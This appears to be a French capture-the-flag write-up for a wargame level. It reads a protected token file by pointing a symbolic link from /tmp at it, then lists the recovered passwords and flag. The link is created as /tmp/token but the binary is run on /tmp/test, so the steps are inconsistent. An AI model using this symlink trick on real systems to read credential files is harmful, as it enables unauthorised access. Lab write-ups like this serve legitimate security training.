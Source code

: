 ## 1. Analyser le fichier binaire level08

    ./level08 [file to read]

Attend un fichier en arg, mais nous n'avons pas l'autorisation d'ouvrir le fichier token.

## 2. Lien symbolique

    ln -s /home/user/level08/token /tmp/token

    ./level08 /tmp/test
    Cela affiche: quif5eloekouj29ke0vouxean

## 3. Connexion

su flag08

    Mot de passe : quif5eloekouj29ke0vouxean
    Commande pour obtenir le flag : getflag
    Résultat : 25749xKZ8L7DkSCwJkT9dyv6f

su level09

    Mot de passe : 25749xKZ8L7DkSCwJkT9dyv6f
